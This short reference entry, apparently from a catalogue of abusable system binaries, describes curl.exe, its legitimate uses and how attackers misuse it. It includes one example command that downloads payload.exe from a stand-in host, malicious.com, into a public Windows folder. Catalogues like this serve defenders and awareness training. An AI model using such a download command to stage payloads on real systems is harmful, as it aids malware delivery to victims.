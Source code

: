 # curl.exe
## What is it?
*curl.exe is a command-line tool used for transferring data using various protocols such as HTTP, HTTPS, FTP, and SFTP.*

## Legitimate Usage
- *Downloading and uploading files.*
- *API interactions and web requests.*

## How to abuse it
- *Downloads malicious payloads from remote sources.*
- *Can be used in scripting malware deployment.*

## Example Attacks
```
curl -o C:\Users\Public\payload.exe http://malicious.com/payload.exe
```
